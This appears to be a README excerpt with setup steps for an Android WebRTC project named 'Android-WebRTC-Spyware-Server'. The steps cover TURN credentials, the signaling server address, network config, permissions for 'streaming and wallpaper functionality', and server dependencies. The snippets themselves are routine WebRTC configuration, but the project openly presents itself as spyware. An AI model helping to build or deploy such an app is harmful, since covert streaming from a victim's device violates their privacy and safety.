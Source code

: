 #### 🔧 **Update Dependencies** 
Verify `app/build.gradle.kts` contains all required dependencies for WebRTC and UI components.

#### 🔐 **Configure TURN Server Credentials**
In `StreamingService.java`, replace placeholders with your actual credentials (Optional):
```java
ice.add(PeerConnection.IceServer.builder("turn:numb.viagenie.ca")
    .setUsername("your-actual-username")      // 🔑 Replace with real username
    .setPassword("your-actual-password")      // 🔑 Replace with real password
    .createIceServer());
```

#### 🌐 **Update Server Configuration**
**In `StreamingService.java`**:
```java
private static final String SIGNALING_URL = "http://YOUR_SERVER_IP:3000";  // 🔧 Update IP
```

**In `network_security_config.xml`**:
```xml
<domain includeSubdomains="true">YOUR_SERVER_IP</domain>  <!-- 🔧 Update IP -->
```

#### ✅ **Verify Permissions**
Ensure `AndroidManifest.xml` includes all necessary permissions for streaming and wallpaper functionality.

---

### 3️⃣ **Setup Signaling Server**

#### 📁 **Navigate to Server Directory**
```bash
cd Android-WebRTC-Spyware-Server
```

#### 📦 **Install Dependencies**
```bash
npm install express socket.io@4.7.5
```

#### 🔐 **Configure Client-Side TURN**
In `public/client.js`, update TURN server credentials (Optional):
```javascript
const config = {
  iceServers: [
    { urls: 'stun:stun.l.google.com:19302' },
    { 
      urls: 'turn:numb.viagenie.ca', 
      username: 'your-actual-username',    // 🔑 Replace with real username
      credential: 'your-actual-password'   // 🔑 Replace with real password
    }
  ]
};
```
